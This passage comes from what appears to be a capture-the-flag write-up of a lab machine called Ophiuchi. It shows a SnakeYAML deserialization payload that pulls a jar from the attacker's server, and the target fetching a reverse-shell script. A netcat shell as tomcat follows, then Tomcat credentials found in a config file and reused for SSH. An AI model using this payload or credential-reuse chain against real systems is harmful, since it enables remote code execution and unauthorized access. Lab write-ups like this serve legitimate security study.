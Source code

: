 At this point, I had a `rev.sh` and `yaml-payload.jar` file in my `exploits` directory. I started a Python HTTP webserver and ran a modified exploit against the "Online YAML Parser" project.

```none
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5:8000/exploits/yaml-payload.jar"]
  ]]
]
```

I could see both requests on my Python HTTP server.

```none
└─$ python3 -m http.server                                            
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.227 - - [15/Aug/2021 11:00:07] "GET /exploits/yaml-payload.jar HTTP/1.1" 200 -
10.10.10.227 - - [15/Aug/2021 11:00:07] "GET /exploits/yaml-payload.jar HTTP/1.1" 200 -
10.10.10.227 - - [15/Aug/2021 11:00:08] "GET /exploits/rev.sh HTTP/1.1" 200 -
```

And... got a reverse shell on my netcat listener!

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.227] 38254
bash: cannot set terminal process group (787): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## Privesc: `tomcat` to `admin`

Ran some linpeas while enumerating manually. I was kind of proud that I found the `tomcat-users.xml` file without relying on linpeas results. Think I am getting better at Tomcat! Anyway, here is the linpeas output.

```none
╔══════════╣ Analyzing Tomcat Files (limit 70)
-rw-r----- 1 root tomcat 2234 Dec 28  2020 /opt/tomcat/conf/tomcat-users.xml                                        
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
```

This file is located in `/opt/tomcat/conf`, and gave us some credentials for a user named `admin`. Looking at the `/home` directory and the `/etc/passwd` file, we can see a user with a shell named `admin`. Coincidence?! Having a quick look at the `ssd_config` file, we can see that password logins are enabled, so tried to log in with the discovered credentials.

```none
└─$ ssh admin@10.10.10.227
The authenticity of host '10.10.10.227 (10.10.10.227)' can't be established.
ECDSA key fingerprint is SHA256:OmZ+JsRqDVNaBWMshp7wogZM0KhSKkp1YmaILhRxSY0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.227' (ECDSA) to the list of known hosts.
admin@10.10.10.227's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 14 Aug 2021 11:21:51 PM UTC
```